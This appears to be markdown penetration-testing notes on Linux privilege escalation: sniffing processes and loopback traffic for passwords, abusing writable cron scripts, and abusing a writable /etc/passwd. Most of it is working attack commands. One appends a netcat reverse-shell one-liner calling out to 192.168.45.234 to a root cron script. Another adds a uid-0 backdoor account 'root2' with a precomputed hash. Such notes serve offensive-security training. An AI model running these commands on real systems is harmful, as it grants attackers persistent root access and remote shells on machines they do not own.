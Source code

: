 ## Inspecting processes
- We can use `pspy` or `ps` to look at processes and try to see if they are called with suspicious arguments
```zsh
watch -n 1 "ps -aux | grep pass"
```
- If we have `sudo` permissions to run `tcpdump` we can also try to perform a packet capture
```zsh
sudo tcpdump -i lo -A | grep "pass"
```
# Insecure File Permissions

## Abusing Cron Jobs
- Check running cron jobs
```zsh
`ls -lah /etc/cron*`

crontab -l 

sudo crontab -l

grep "CRON" /var/log/syslog
```
- If we have binaries or scripts involved in cron jobs that are being run with privileged users, check their permission
```zsh
ls -lah /home/alexa/.scripts/user_backups.sh
```
- If we can modify the files, we can add our payload
```zsh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.234 9001 >/tmp/f" >> user_backups.sh
```

## Abusing Password Authentication
- Passwords are generally stored in `/etc/shadow`. For backwards compatibility however, sometimes hashed passwords are also stored in the second column of a user entry in `/etc/passwd` which is world readable
> [!IMPORTANT]
> The password entry in `/etc/passwd` if present, takes precedence over `/etc/shadow`

- We can create our own password and add it to `/etc/passwd` if we have write access
```zsh
openssl passwd init_12345
echo "root2:$1$uulseTDm$ZNn78UI7q/dpCMkLN5apR.:0:0:root:/root:/bin/bash" >> /etc/passwd
```
> [!WARNING]
> Always use `openssl` on the target if available. The output of the OpenSSL `passwd command may vary depending on the system executing it. On older systems, it may default to the DES algorithm, while on some newer systems it could output the password in MD5 format.
